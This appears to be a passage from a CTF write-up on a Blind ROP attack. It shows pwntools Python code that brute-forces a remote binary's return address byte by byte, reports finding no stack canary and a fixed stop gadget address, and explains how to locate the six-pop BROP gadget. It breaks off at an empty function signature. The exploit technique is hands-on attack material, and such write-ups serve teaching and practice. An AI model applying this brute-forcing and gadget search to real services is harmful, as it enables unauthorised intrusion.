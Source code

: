 ```python
                p.send(payload)
                line = p.recv(30, timeout=2)
                if "No password" in line.decode():
                    ret_Addr += chr(guess)
                    my_list.append(guess)
                    #print("Return addrees:" + ret_Addr)
                    guess = 0x0
                    p.close()
                    break
                else:
                    guess += 1
                    p.close()
            except EOFError as e:
                p.close()
                #print("bad: 0x%x" % guess)
                guess += 1
            except KeyboardInterrupt:
                sys.exit(-2)
            except:
                log.info("Can't connect")
                guess -= 1
    return ret_Addr
```
Output:
```text
[+] Stack address:- 0x40070c
```
While Bruteforcing found there is **no canary** and the binary is compiled with **-no-pie** because the ret-address don't change
### Stop Gadget
Let see what a stop Gadget is:-
```text
A stop gadget is anything that
would cause the program to block, like an infinite loop or a
blocking system call (like sleep). To scan for useful gadgets,
one places the address being probed in the return address
```
But:- 
```text
Stop gadgets need not necessarily be gadgets that “stop”
the program. They are merely a signaling mechanism. For
example, a stop gadget could be one that forces a particular
write to the network so the attacker can tell whether the stop
gadget executed.
```
Let's put the stack address we got from previous step as stop_Gadget and run:- 
![](https://github.com/TomiyokaGiyu/Ctf-pictures/blob/main/Screenshot%20from%202022-02-14%2014-04-18.png?raw=true)
- Well it's good enough if our payload will be correct then 'No password will be printed' else just crash
```text
[+] Stop Gadget:- 0x40070c
```
### Brop Gadget
Let's see what a Brop Gadget is:- 
```text
It's a special gadget present mostly in all bianries having 6 pops
i.e. pop rbx, pop rbp, pop r12, pop r13, pop r14, pop  r15 having 6 pop together is a rarity 
and it alwayas loaded after main that's why it quite easy to find and with the misalignment of 9 and 7 
we can transform it into "pop rdi, ret" and "pop rsi, pop r15, ret"
```
```python
def get_Brop_Gadget(stop_gadget, buff_size):
```